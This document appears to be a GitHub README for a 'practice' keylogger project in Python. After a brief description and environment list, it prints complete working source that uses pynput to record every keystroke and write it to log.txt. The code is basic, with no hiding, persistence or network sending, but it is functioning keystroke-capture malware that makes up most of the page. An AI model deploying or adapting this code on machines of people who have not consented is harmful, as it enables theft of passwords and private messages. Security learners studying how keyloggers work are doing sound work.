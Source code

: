<h1>JKeylogger Practice Project</h1>

<h2>Description</h2>
This script uses the pynput library to listen for keyboard events. The on_press function is called whenever a key is pressed, and it appends the pressed key to a global log list. The key is then written to a file called log.txt.
<br />


<h2>Languages and Utilities Used</h2>

- <b>Python</b> 

<h2>Environments Used </h2>

- <b>Windows 11</b> (21H2)

<h2>Program Code:</h2>

```python
import pynput
from pynput import keyboard

# import necessary modules

# function to be called whenever a key is pressed
def on_press(key):
    try:
        current_key = str(key.char)
    except AttributeError:
        if key == key.space:
            current_key = " "
        else:
            current_key = " " + str(key) + " "
    # append the current key to a global variable storing the log
    log.append(current_key)
    # write the log to a file
    with open("log.txt", "w") as f:
        for key in log:
            k = str(key).replace("'","")
            if k.find("space") > 0:
                f.write(' ')
            elif k.find("Key") == -1:
                f.write(k)

# start the keylogger
log = []
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

